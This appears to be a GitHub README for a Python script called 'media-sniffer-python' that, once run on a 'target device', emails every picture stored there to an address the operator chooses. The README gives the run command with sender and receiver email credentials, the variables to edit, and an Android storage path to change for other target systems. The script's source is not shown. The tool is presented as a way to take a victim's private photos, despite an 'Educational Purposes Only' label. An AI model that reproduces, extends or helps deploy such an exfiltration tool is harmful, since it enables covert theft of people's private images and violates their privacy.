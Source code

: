 # media-sniffer-python
## Educational Purposes Only

This script sends all the pics to your desired email address from target device.
But you need to execute it in target device.

To run it for test purpose

```
python main.py sender@mail sender_password receiver@mail
```
<br/>

Or you can also keep the credentials directly in the script. There are 3 variables. Update them.
```
sender = "sender email"
password = "your password"
receiver = "receiver email"
```
Check receiver's mail inbox. If not found please check the spam folder also.

I have used the path for Android devices. Change the value of **PATH** variable as your **Target OS**.
```
PATH = "/storage/emulated/0"
```
